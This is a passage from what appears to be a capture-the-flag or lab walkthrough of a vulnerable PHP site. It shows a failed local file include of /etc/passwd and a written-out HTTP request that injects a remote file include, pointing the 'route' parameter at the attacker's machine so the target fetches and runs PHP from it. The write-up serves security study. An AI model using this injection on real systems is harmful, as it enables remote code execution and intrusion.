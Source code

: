 It occured to me that the value assigned to route might be a PHP page without the extension. I intercepted the request in Burp Suite, changed it to index, and proved my assumption was correct.

![](/images/2016-06-02/milnetindex.png)

Attempting to include local files like /etc/password didn't work. So I decided to try a remote file include instead. A simple PHP page hosted on my attacking machine that printed out "Hello" sufficed:

```
POST /content.php HTTP/1.1
Host: 172.16.146.131
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.16.146.131/nav.php
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

route=http://172.16.146.129/test
```

